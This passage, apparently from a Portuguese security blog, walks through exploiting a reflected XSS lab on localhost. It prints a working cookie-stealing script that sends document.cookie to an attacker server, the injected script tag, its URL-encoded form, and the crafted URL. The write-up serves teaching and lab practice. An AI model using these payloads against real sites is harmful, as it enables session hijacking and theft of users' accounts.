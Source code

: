 #### Exploração

Esta exploração se da em duas fases, a primeira consiste em montar um script malicioso e hospedá-lo na máquina sob controle do atacante que será usada como *dropper*, em seguida montamos um script que será injetado no vetor de XSS.

**Script malicioso:**

```javascript
window.addEventListener("load", function() {
    alert(document.cookie);
    new Image().src = "http://0.0.0.0:8080/?cookie=" + document.cookie;
});
```

**Script a ser injetado**

```html
<script src="http://0.0.0.0:8080/script.js"></script>
```

Convertendo para *URL Encode*:

```
%3Cscript%20src%3D%22http%3A%2F%2F0.0.0.0%3A8080%2Fscript.js%22%3E%3C%2Fscript%3E
```

Gerando a seguinte URL:

- [http://localhost/10/?search=%3Cscript%20src%3D%22http%3A%2F%2F0.0.0.0%3A8080%2Fscript.js%22%3E%3C%2Fscript%3E](http://localhost/10/?search=%3Cscript%20src%3D%22http%3A%2F%2F0.0.0.0%3A8080%2Fscript.js%22%3E%3C%2Fscript%3E)

Podemos iniciar um *Python server* na porta 8080 que hospeda o script malicioso e configurado para ouvir as requisições feitas.

![Python server](/img/posts/2023-06-21-beyond-the-alert-27.png)

Ao acessar a URL, um alerta é impresso com o *cookie*.

![Alerta com o cookie](/img/posts/2023-06-21-beyond-the-alert-28.png)
